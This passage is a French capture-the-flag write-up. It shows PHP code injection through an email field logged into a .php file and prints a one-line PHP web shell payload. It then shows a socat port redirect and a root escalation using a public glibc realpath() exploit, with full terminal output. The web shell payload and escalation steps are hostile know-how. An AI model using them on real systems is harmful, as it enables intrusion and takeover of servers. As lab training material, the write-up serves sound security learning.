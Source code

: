 Le code est fait de telle façon que les fichiers de logs écrits avec l'extension *.php* commencent toujours par le contenu de *dummy.php* qui bloque l'accès si l'on est pas authentifié, donc pas de problèmes pour nous.  

Ici on contrôle l'email et donc le premier paramètre de *addlog()*. Il ne reste plus qu'une difficulté à savoir le script réécrit les valeurs de $\_POST en appliquant un *addslashes()* dessus, il faut donc faire attention à ce que l'on passe comme email si on ne veut pas cramer le code PHP que l'on souhaite injecter.  

Le code suivant passe parfaitement :  

```php
<?php system($_GET[chr(99)]); ?>
```

Un [shell PTY](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_bind.py) plus tard, et après n'avoir pas trouvé de moyens classiques de passer root, je décide de fouiller dans la base SQL.  

Une petite redirection *socat* pour la forme : *socat TCP4-LISTEN:3366,fork,reuseaddr TCP4:127.0.0.1:3306*  

Mais la base s'avère inintéressante et les identifiants SQL ne sont pas réutilisés...  

Baby don't hurt me
------------------

Finalement j'ai eu recourt à [un exploit de halfdog](https://www.exploit-db.com/exploits/43775/) pour une vulnérabilité touchant la fonction *realpath()* de la libc :  

```plain
www-data@ubuntu:/tmp$ ./whatislove
./whatislove: setting up environment ...
Detected OS version: "16.04.3 LTS (Xenial Xerus)"
./whatislove: using umount at "/bin/umount".
No pid supplied via command line, trying to create a namespace
CAVEAT: /proc/sys/kernel/unprivileged_userns_clone must be 1 on systems with USERNS protection.
Namespaced filesystem created with pid 7195
Attempting to gain root, try 1 of 10 ...
Starting subprocess
Stack content received, calculating next phase
Found source address location 0x7ffd91510aa8 pointing to target address 0x7ffd91510b78 with value 0x7ffd9151223f, libc offset is 0x7ffd91510a98
Changing return address from 0x7f2563cbe830 to 0x7f2563d5de00, 0x7f2563d6aa20
Using escalation string %69$hn%73$hn%1$25557.25557s%67$hn%1$1.1s%71$hn%1$6991.6991s%68$hn%72$hn%1$11003.11003s%70$hn%1$13280.13280s%66$hn%1$8704.8704s%1$2694.2694s%1$s%1$s%65$hn%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%39$hn-%35$lx-%39$lx-%64$lx-%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%70$lx-%71$lx-%78$s
Executable now root-owned
Cleanup completed, re-invoking binary
/proc/self/exe: invoked as SUID, invoking shell ...
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
flag.txt
# cat flag.txt
Congrats you did it :)
Give me feedback @nomanriffat
```
